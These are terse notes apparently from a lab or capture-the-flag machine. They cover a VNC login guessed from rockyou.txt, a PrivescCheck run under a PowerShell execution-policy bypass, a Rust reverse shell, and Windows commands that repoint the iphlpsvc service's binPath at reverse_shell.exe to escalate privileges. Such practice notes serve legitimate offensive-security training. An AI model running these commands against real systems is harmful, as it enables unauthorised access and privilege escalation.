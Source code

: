 url=192.168.1.101

nmap

vnc port 5900
password is rockyou (manually testing rockyou.txt)
same for user is iloveyou

[PrivescCheck](https://github.com/itm4n/PrivescCheck)

file transfer over updog

```sh
Set-ExecutionPolicy Bypass -Scope Process -Force
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format HTML
```

rev shell from git@github.com:Erez-Goldberg/Rust-revshell.git, easy for cross compiling

file transfer over updog

```sh
sc.exe config iphlpsvc binPath= "C:\Users\Jenny\Downloads\reverse_shell.exe"
sc.exe stop iphlpsvc
sc.exe start iphlpsvc
```

